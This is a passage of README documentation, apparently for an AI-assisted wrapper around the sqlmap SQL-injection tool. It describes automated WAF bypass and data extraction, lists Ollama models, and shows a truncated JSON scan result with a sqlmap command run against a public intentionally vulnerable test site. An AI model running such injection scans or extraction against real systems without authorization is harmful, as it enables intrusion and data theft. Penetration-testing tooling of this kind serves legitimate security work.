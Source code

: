 ### Adaptive Testing Mode
Automatically adapts testing strategy based on target:

```bash
sqlmap-ai --adaptive
```

This mode:
1. **Initial Assessment** - Check for SQL injection vulnerabilities
2. **DBMS Identification** - Detect database type
3. **DBMS-Specific Attacks** - Use optimized techniques
4. **WAF Bypass** - Automatically select tamper scripts
5. **Data Extraction** - Extract sensitive information
6. **Alternative Testing** - Test POST, cookies, headers

### Ollama Model Selection

If using Ollama, you can select different models:

```bash
# List available models
sqlmap-ai --list-ollama-models

# Interactive model selection
sqlmap-ai --config-wizard
```

Popular models:
- **llama3.2** - Good general performance
- **codellama** - Specialized for code analysis
- **mistral** - Fast and efficient
- **qwen2.5** - Good reasoning capabilities

### Result:
```json
{
  "timestamp": 1755896586,
  "scan_info": {
    "vulnerable_parameters": [
      "cat"
    ],
    "techniques": [
      "MySQL"
    ],
    "databases": [],
    "tables": [],
    "columns": {},
    "dbms": "back-end DBMS: MySQL >= 5.6",
    "os": "Unknown",
    "waf_detected": false,
    "web_app": [],
    "payloads": [],
    "raw_result": "[+] the following parameters are vulnerable to SQL injection:\n    Parameter: cat (GET)\n[+] back-end DBMS: back-end DBMS: MySQL >= 5.6\n[+] banner: 8.0.22-0ubuntu0.20.04.2",
    "url": "",
    "extracted": {}
  },
  "scan_history": [
    {
      "step": "initial_reconnaissance",
      "command": "sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --fingerprint --dbs",
      "result": {
        "vulnerable_parameters": [
          "cat"
        ],
        "techniques": [
```